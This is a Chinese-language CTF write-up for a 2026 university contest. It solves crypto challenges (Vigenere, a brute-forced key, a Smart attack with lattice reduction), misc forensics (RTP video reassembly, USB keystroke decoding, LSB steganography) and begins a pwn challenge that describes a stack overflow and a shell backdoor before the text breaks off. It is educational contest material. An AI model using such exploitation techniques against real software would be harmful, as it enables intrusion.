# 2026 山西大学网络安全 CTF 校赛 | 新星赛道

- WriteUp 文档仓库: [https://github.com/yangnuozhen/sxu-ctf-2026-writeup](https://github.com/yangnuozhen/sxu-ctf-2026-writeup)
- 包含题目: 
    - Crypto: 1, 2, 3
    - Misc: 2, 3
    - Pwn: 1, 2
    - Reverse: 2, 3
    - Web: 1, 2, 3

> 由于部分题目的靶机在比赛结束后无法连接，故部分复现截图缺失...

## Crypto 方向

### 01.关键的Vigenere

#### 初步分析

题目明确给出了维基尼亚密码 Vigenere，提示里亦给出了 Keyword ，也就是关键词替换密码。故考虑两种密码。

注意到下方的 `qzsz{bl@rstpb_ibgfrg!}` 显然是 Flag 的结构，故仅替换英文字母，其他字符原样保留。然后假设前四个字母 `qzsz` 对应 `flag`，反推得密钥的前四个字母为 `LOST`。

又云「观其表，解其里」，更合适的切入点是先构造关键词替换表，解开上方短句中的提示。

#### Keyword 解密

尝试使用关键的 `VIGENERE` 作为关键词，得到

```plain
明文字母表：ABCDEFGHIJKLMNOPQRSTUVWXYZ
密文字母表：VIGENRABCDFHJKLMOPQSTUWXYZ
```

进一步，解密上方短句，得 `KEY IS LOSTDREAM`。

太好了这就是 key 大人。这和我们先前注意到的结果一致。

#### Vigenere 解密

使用标准 Vigenere 解密，将密钥 `LOSTDREAM` 循环使用，并将非字母符号在加密过程中丢弃，最后原样保留。

得到

```plain
flag{yu@nshen_qidong!}
```

**原神启动！**

### 02. Hidden Key

#### 初步分析

源码给了密文和泄露值: 

```py
# [140, 96, 112, 178, 38, 180, 158, 240, 179, 202, 251, 138, 188, 185, 23, 67, 163, 22, 150, 18, 143, 212, 93, 87, 209, 139, 92, 252, 55, 137, 6, 231, 105, 12, 65, 59, 223, 25, 179, 101, 19, 215]
# 2669175714787937
```

注意到 L17 将 `key` 按大端序解释为整数，右移 12 位后打印，高 52 位已经清晰可见。这样 64 位密钥只剩 12 位未知。也就是只需要枚举 $2^{12}=4096$ 个候选密钥。

#### 枚举

具体流程如下：

1. 令 `low` 遍历 `0..4095`，拼接得到完整 64 位候选密钥。
2. 计算候选 key 的 MD5 整数种子。
3. 按原题调用顺序生成密钥流，并逐项异或解密。
4. 筛选全部为可打印 ASCII、以 `flag{` 开头且以 `}` 结尾的候选。
5. 使用找到的 key 重新生成完整密文，逐项与附件中的 42 个整数比较。
6. 再检查恢复 key 右移 12 位后的结果等于原题泄露值。

脚本见 [hidden_key_solve.py](./assets/hidden_key_solve.py)

得到密钥：

```plain
key，十六进制：97b99e652b261b77
低 12 位：0xb77
```

以及 Flag:

```plain
flag{e319a58c-4dd6-4e6a-a3fb-f4b0d339faba}
```

###  03. Rosita

#### 初步分析

分析加密脚本，源码先在未知曲线上随机选择三个点 $R,E,C$，此后三个点保持不变。每次取一个明文字节，构造随机填充消息 `m`，再生成 16 字节 `nonce`，并计算：

$$
Q_i=m_iR+n_iE+h_iC,
$$

其中：

$$
n_i=\operatorname{bytes\_to\_long}(\mathrm{nonce}_i),
$$

$$
h_i=\operatorname{bytes\_to\_long}
\left(\operatorname{SHA256}(\mathrm{nonce}_i\parallel\mathrm{m}_i)\right).
$$

已知的是 73 个输出点 $Q_i$。曲线的 $p,a,b$、三个固定点和每轮随机值均未知。

#### 恢复曲线

短 Weierstrass 曲线方程为：

$$
y^2\equiv x^3+ax+b\pmod p.
$$

对每个输出点定义普通整数：

$$
t_i=y_i^2-x_i^3.
$$

因此：

$$
t_i\equiv ax_i+b\pmod p.
$$

选取前两个点作为基准，得到：

$$
t_1-t_0\equiv a(x_1-x_0)\pmod p,
$$

$$
t_i-t_0\equiv a(x_i-x_0)\pmod p.
$$

交叉相乘并相减，可以同时消去 $a$ 和 $b$：

$$
D_i=(t_i-t_0)(x_1-x_0)-(t_1-t_0)(x_i-x_0).
$$

每个 $D_i$ 都是 $p$ 的整数倍，因此：

$$
p\mid\gcd(D_2,D_3,\ldots).
$$

哦对了，GCD 不一定恰好等于 $p$，也可能多出小的公因子。本题实际得到的是 $4p$。去掉因子 4 后，得到一个 512 位素数。

确定 $p$ 后，利用模逆恢复：

$$
a=(t_1-t_0)(x_1-x_0)^{-1}\bmod p,
$$

$$
b=t_0-ax_0\bmod p.
$$

本题参数为：

```plain
p = 11093300438765357787693823122068501933326829181518693650897090781749379503427651954028543076247583697669597230934286751428880673539155279232304301123931419

a = 490963434153515882934487973185142842357175523008183292296815140698999054658777820556076794490414610737654365807063916602037816955706321036900113929329671

b = 7668542654793784988436499086739239442915170287346121645884096222948338279165302213440060079141960679678526016348025029558335977042712382611197995002316466
```

#### 验证异常曲线条件

下面验证 $[p]Q_0=\mathcal O$ 。

对第一个输出点做标量乘法，实际结果为：

$$
[p]Q_0=\mathcal O.
$$

由于 $Q_0$ 是一个有坐标的非无穷远点，而 $p$ 是素数，$Q_0$ 的阶只能是 $p$。因此：

$$
p\mid\#\mathcal E(\mathbb F_p).
$$

另一方面，Hasse 界给出：

$$
p+1-2\sqrt p\le\#\mathcal E(\mathbb F_p)
\le p+1+2\sqrt p.
$$

对于本题的 512 位素数，区间中唯一的正整数 $p$ 倍数就是 $p$ 本身，所以：

$$
\#\mathcal E(\mathbb F_p)=p.
$$

这是异常曲线，也等价于 Frobenius 迹为 1。此时可以使用 Smart attack，将椭圆曲线离散对数问题转到加法群。参考 [Generating Anomalous Elliptic Curves，第 2 节](https://www.monnerat.info/publications/anomalous.pdf)。

参数验证：


接下来做 Smart attack 中的映射。

为避免依赖完整 SageMath 环境，最终脚本使用 Python 大整数，在模 $p$ 和模 $p^2$ 下实现 Jacobian 坐标的点运算。

对曲线点 $P=(x,y)$，保持 $x$ 不变，令提升后的纵坐标为：

$$
\widetilde y=y+pk.
$$

将曲线方程展开到模 $p^2$：

$$
y^2+2ypk\equiv x^3+ax+b\pmod{p^2}.
$$

由于原来的点在模 $p$ 下满足方程，$x^3+ax+b-y^2$ 可以被 $p$ 整除，因此可取：

$$
k=\frac{x^3+ax+b-y^2}{p}\,(2y)^{-1}\bmod p.
$$

在本题中，这样即可把点提升到所选整数系数曲线的模 $p^2$ 点。计算 $[p]\widetilde P$，使用无穷远点附近的形式参数：

$$
t=-\frac{x}{y}.
$$

若 $[p]\widetilde P$ 的 Jacobian 坐标为 $(X:Y:Z)$，对应仿射坐标为 $x=X/Z^2,y=Y/Z^3$，所以：

$$
t=-\frac{XZ}{Y}.
$$

此时 $Z$ 能被 $p$ 整除，$Y$ 在模 $p$ 下非零。定义：

$$
\lambda(P)=\frac{t([p]\widetilde P)}p\bmod p
=-X\frac ZpY^{-1}\bmod p.
$$

在本题所用提升下，该映射非零，并满足加法关系。它会把原始加密式映射成：

$$
\lambda(Q_i)=m_i\lambda(R)+n_i\lambda(E)+h_i\lambda(C)\pmod p.
$$

于是无需预先知道 $R,E,C$，也能把 73 个输出点都转成已知标量。记：

$$
d_i=\lambda(Q_i).
$$

该实现针对本题附件验证有效。对其他异常曲线，所选提升可能导致映射为零，需考虑调整曲线系数的 $p$ 倍项后重新提升。

#### 利用填充方式建立短向量关系

题目使用：

```python
urandom(8) + m + b'\x00' * (ZZ(p).nbits() // 8 - len(m) - 8 - 1)
```

恢复出 $p$ 后，已知其位长是 512，所以：

```plain
512 // 8 = 64
```

本题实际明文均为 ASCII，`chr(flag[i]).encode()` 每次产生 1 字节。因此零填充长度为：

$$
64-1-8-1=54\text{ 字节}.
$$

完整消息字节串的结构是：

```plain
8 字节随机前缀 || 1 字节字符 || 54 字节零
```

消息总长为 63 字节，而不是 64 字节。设随机前缀对应整数 $r_i<2^{64}$，字符字节为 $f_i<256$，则：

$$
m_i=(256r_i+f_i)\,2^{54\times8}
=(256r_i+f_i)\,2^{432}.
$$

定义：

$$
u_i=256r_i+f_i,\qquad 0\le u_i<2^{72}.
$$

所以，原来看起来接近 504 位的消息整数，实际上只包含一个不超过 72 位的变量，其余部分是固定的 $2^{432}$ 因子。

接下来将固定因子并入未知系数。

令：

$$
\alpha=2^{432}\lambda(R),\quad
\beta=\lambda(E),\quad
\gamma=\lambda(C)\pmod p.
$$

原式变为：

$$
d_i\equiv\alpha u_i+\beta n_i+\gamma h_i\pmod p.
$$

三类未知数的大小分别为：

| 变量 | 来源 | 每项大小 |
| --- | --- | --- |
| $u_i$ | 8 字节前缀与 1 字节字符 | 小于 $2^{72}$ |
| $n_i$ | 16 字节 nonce | 小于 $2^{128}$ |
| $h_i$ | SHA-256 输出 | 小于 $2^{256}$ |

这里没有对 SHA-256 求原像。攻击仅将哈希输出视作一个有已知上界的整数，利用它与其他两类整数共同乘以固定系数的线性结构。

将 73 组数据写成向量：

$$
\boldsymbol d\equiv
\alpha\boldsymbol u+\beta\boldsymbol n+\gamma\boldsymbol h\pmod p.
$$

这就形成了一个隐藏格问题：已知一个模 $p$ 的线性组合，试图恢复其背后的低秩短向量空间。参考 [The Hidden Lattice Problem](https://eprint.iacr.org/2021/1491.pdf)。

#### 第一次 LLL: 寻找共同正交关系


考虑格：

$$
L=\{\boldsymbol w\in\mathbb Z^{73}:
\langle\boldsymbol w,\boldsymbol d\rangle\equiv0\pmod p\}.
$$

本题 $d_0\ne0$，所以 $d_0$ 在模 $p$ 下可逆。令：

$$
c_i=-d_id_0^{-1}\bmod p.
$$

可以构造下面这个 73 维行基矩阵：

$$
B=\begin{pmatrix}
p&0&0&\cdots&0\\
c_1&1&0&\cdots&0\\
c_2&0&1&\cdots&0\\
\vdots&\vdots&\vdots&\ddots&\vdots\\
c_{72}&0&0&\cdots&1
\end{pmatrix}.
$$

第一行与 $\boldsymbol d$ 的内积为 $pd_0$，其余第 $i$ 行的内积为 $c_id_0+d_i$，均为 $p$ 的倍数，所以这些行都属于 $L$。矩阵行列式绝对值为 $p$，也与该模正交条件的指数一致。

对它执行：

```python
LLL.reduction(B, delta=0.99)
```


由隐藏向量关系，对任意 $\boldsymbol w\in L$ 有：

$$
\alpha\langle\boldsymbol w,\boldsymbol u\rangle+
\beta\langle\boldsymbol w,\boldsymbol n\rangle+
\gamma\langle\boldsymbol w,\boldsymbol h\rangle
\equiv0\pmod p.
$$

如果 $\boldsymbol w$ 很短，则上式中的三个整数内积也受限。对随机的固定系数，这些受限内积不容易形成额外的非零模关系；共同满足三个整数内积均为零的向量，成为可优先寻找的短向量：

$$
\langle\boldsymbol w,\boldsymbol u\rangle=
\langle\boldsymbol w,\boldsymbol n\rangle=
\langle\boldsymbol w,\boldsymbol h\rangle=0.
$$

本题三条隐藏向量在 73 维空间中张成 3 维空间，其共同正交空间应为 $73-3=70$ 维。实际 LLL 输出也出现了清晰分层：

- 前 70 行的最大绝对元素位长为 7 或 8 位。
- 最后 3 行的最大绝对元素位长分别为 15、16、16 位。
- 短行矩阵的实际秩为 70。

因此取前 70 行，组成 $70\times73$ 的整数矩阵 $W$，作为共同正交关系的候选基。

#### 整数核 & 第二次 LLL

目标空间为：

$$
K=\{\boldsymbol v\in\mathbb Z^{73}:W\boldsymbol v=0\}.
$$

如果前一步恢复正确，原始 $\boldsymbol u,\boldsymbol n,\boldsymbol h$ 都应位于这个 3 维整数核中。

这里需要整数核，而不只是一个任意缩放的有理零空间基。有理基逐行清分母后虽然仍然处于零空间内，却可能只生成完整整数核的真子格，导致原本的短向量难以恢复。

脚本采用 FLINT 的 HNF 变换：

```python
H, T = fmpz_mat(W).transpose().hnf(transform=True)
```

满足：

$$
H=T W^T.
$$

这里 $T$ 是整数幺模变换矩阵。因为 $W$ 的秩为 70，HNF 最后 3 行为零，$T$ 中相应的 3 行就给出了整数核的基。通过这种方式保留的是完整、饱和的整数核。

对恢复的 3 行整数核基再次执行 LLL。原始三类向量的逐项大小约为 72、128、256 位，差异很大，因此最短的消息向量有机会被单独分离出来。

本题第二次约简实际得到的三个基向量，最大绝对元素位长分别为：

```plain
[72, 128, 256]
```

最短向量就是所需的 $\boldsymbol u$，可能存在整体正负号歧义。脚本同时尝试正负号，并要求恢复出的 $u_i$ 均处于 `[0, 2**72)`，低字节全部为可打印 ASCII。

#### 提取字符

根据定义：

$$
u_i=256r_i+f_i,
$$

所以：

$$
f_i=u_i\bmod256.
$$

逐项取低 8 位并转换为字节串，得到：

```plain
Congratulations! Your flag is: flag{893d041e-c0a2-3145-5320-cdee7d3c87fb}
```

#### 解题脚本

多亏了 gpt-6.1-sol，复现脚本不需要装雷霆大 SageMath。只需要依赖：

```bash
python -m pip install sympy fpylll cysignals python-flint
```

完整脚本见 [rosita_solve.py](./assets/rosita_solve.py)。

## Misc 方向

### 01. Streaming (UNFINISHED)

#### 初步分析

打开 `？.pcapng`，映入眼帘的是一堆 UDP 包，以及一个 RTCP，主要数据方向未 `192.168.1.128:41544 -> 192.168.1.1:1234`. 尝试解码 UDP 包为 RTP 协议。



#### 分析 RTP Stream

进一步检查负载，发现符合 H.264 的单 NAL、STAP-A 和 FU-A 封装；重组后还能由 H.264 解码器成功解码，从而确认视频格式。



#### 重组 H.264

UDP 负载包含 RTP 包头，RTP 负载又可能包含 NAL 聚合或分片结构。直接将 UDP 负载连接会把这些封装字节混入码流。即使已经去掉 RTP 包头，仍需处理 STAP-A 与 FU-A。

使用 tshark 的 `rtp.payload` 字段取得不含 RTP 包头的负载。负载第一个字节的低 5 位给出本次封装类型：

```python
kind = payload[0] & 0x1F
```

Annex-B H.264 字节流使用起始码分隔 NAL。本脚本在每个完整 NAL 前加入：

```plain
00 00 00 01
```

单 NAL 负载可以整体写出。STAP-A 的格式为：

```plain
STAP-A 指示字节 | 长度1（2字节） | NAL1 | 长度2（2字节） | NAL2 | ...
```

长度字段不属于实际视频 NAL，应解析后丢弃。


FU-A 负载的前两个字节分别为 FU indicator 和 FU header。FU header 中的 S、E 位标记起始片和结束片，低 5 位保留原始 NAL 类型。

恢复原始 NAL 头的方法为：

```python
nal_header = (fu_indicator & 0xE0) | (fu_header & 0x1F)
```

在 S 位置位的首片创建 NAL，并写入恢复出的 NAL 头；后续分片只连接其第 3 字节开始的数据，到 E 位置位时完成一个 NAL。脚本检查分片起止、序号连续性，以及同一分片组的头部和时间戳是否一致。

重组脚本见 [extract_streaming.py](./assets/extract_streaming.py) .

#### 解码视频

用 ffprobe check 重组后视频流。



H.264、968×844、58 帧. 

导出视频帧。



#### 打开看看

注意到 29 - 30 帧中的记事本出现：



```plain
flag1 is 'flag{3b3a9c08-'
hint:it's not just flag!!!
```

得出第一段 Flag。

#### 第二段呢？

第一段 Flag 后的 `hint:it's not just flag!!!`，提示 Flag1 很有可能也是第二段 Flag 的关键。

但尝试了各种方法，拼尽全力无法战胜，遂放弃。

### 02. SimpleUSB

#### 初步分析

「动过的键盘必有痕迹」，故检查 USB HID 流量。



HID Data 符合常见的 8 字节键盘输入格式。

#### 读出他动了啥

查询对应 Usage Id 映射，部分映射如下表：

| Usage ID | 无 Shift 时 | 按下 Shift 时 |
| --- | --- | --- |
| `0x04` | `a` | `A`，同时受 Caps Lock 影响 |
| `0x12` | `o` | `O`，同时受 Caps Lock 影响 |
| `0x1E` | `1` | `!` |
| `0x1F` | `2` | `@` |
| `0x22` | `5` | `%` |
| `0x26` | `9` | `(` |
| `0x31` | `\` | 竖线（U+007C） |
| `0x39` | Caps Lock | 切换大小写锁定状态 |

修饰键字节中，`0x02` 对应左 Shift，`0x20` 对应右 Shift。考虑用位掩码 `0x22` 检查任意一侧 Shift。

比如第 33 帧，就是右 Shift 的例子。



```plain
20 00 26 00 00 00 00 00
```

`0x26` 对应数字键 `9`，按下右 Shift 后应输出 `(`。

再看大写锁定，共出现 6 次 Caps Lock 按下事件，分别位于第 47、65、155、165、227、241 帧。每次按下时，都需要翻转状态。

处理报告，恢复字符:

```plain
Ao(mgHSK%f@q91\2D$X=ARmB'1,<8i0etb!/NI;q2)f)$@q/tV149
```

#### 解码字符

注意到字符范围符合 ASCII85。尝试:

```python
import base64

flag = base64.a85decode(typed).decode('ascii')
```

得到 Flag: 

```plain
flag{1d4cdfb6-12ed-d22a-129c-9c157e1ccba2}
```

### 03. 最低有效位隐写

#### 初步分析

解压附件，得到一个 `out.png`。


查询图片出处，指向[王者荣耀主线剧情海报](https://pvp.qq.com/ip/plot-ngr.html)。然并卵。

#### 最低有效位隐写

一个 8 bit 颜色通道的取值范围是 0～255。其最低有效位是二进制表示最右侧的一位，可以通过按位与运算提取。

```python
bit = channel_value & 1
```

改变一个颜色值的最低位，通道数值最多变化 1。因此，这类方法可以用很小的像素数值变化保存二进制信息。

本题隐藏内容使用每个像素的 RGB 三个通道，每个通道提供 1 bit。按照固定顺序收集位，再每 8 位组成一个字节，即可恢复字节数据。

#### 确认顺序

用 NumPy 读取图像时，数组维度为 `[行, 列, 通道]`。保留 RGB 三个通道后，默认按行展平即可得到所需顺序。

```python
pixels = np.array(Image.open('out.png').convert('RGB'))
bits = (pixels & 1).reshape(-1)
payload = np.packbits(bits, bitorder='big').tobytes()
```

其中 `bitorder='big'` 明确指定先读到的位作为字节最高位。

#### 尝试推到第一个字符

原图左上角前三个像素的数据如下：

| 像素坐标 | 原始 RGBA 值 | RGB 最低位 |
| --- | --- | --- |
| `(x=0, y=0)` | `[190, 203, 233, 255]` | `0 1 1` |
| `(x=1, y=0)` | `[202, 212, 243, 255]` | `0 0 1` |
| `(x=2, y=0)` | `[197, 206, 238, 255]` | `1 0 0` |

第一个字节取前两个像素的全部 RGB 最低位，以及第三个像素的 R、G 最低位。

```plain
R0 G0 B0 R1 G1 B1 R2 G2
 0  1  1  0  0  1  1  0
```

因此第一个字节为

```plain
01100110₂ = 0x66 = ASCII 字符 f
```

循环组装，得到前四个字符。

| 字节偏移 | 二进制 | 十六进制 | ASCII |
| --- | --- | --- | --- |
| 0 | `01100110` | `0x66` | `f` |
| 1 | `01101100` | `0x6C` | `l` |
| 2 | `01100001` | `0x61` | `a` |
| 3 | `01100111` | `0x67` | `g` |

说明顺序对啦。

#### 提取完整 Flag

脚本见 [solve_lsb.py](./assets/solve_lsb.py) 。

得到 Flag:

```plain
flag{16D28F7F-E02C-7C37-903F-342A74E0F1CF}
```

## Pwn 方向

### 01. Fakefake

#### 初步分析

检查附件中 `a.out` 的保护机制



GOT 不可写（Full RELRO）、有栈金丝雀、NX、PIE 地址随机化，且程序 stripped。

这意味着不能改 GOT、不能直接 ret2shellcode、返回地址与后门地址都随 PIE 随机化——

必须先泄漏 canary 和 PIE 基址，才能完成栈溢出劫持。

#### 逆向分析

程序是一个「255 以内加减乘除」计算器，菜单循环。关键函数（相对 PIE 基址的偏移）：

| Offset | 功能 |
|------|------|
| `0x12ba` | 后门：`execve("/bin/sh", 0, 0)` |
| `0x134a` | `add`：`scanf("%d",&size)` 后 `for(i=0;i<size;i++) scanf("%hhd",&buf[i])`，size 无上界 |
| `0x1636` | `mul`：与 add 相同的溢出结构 |
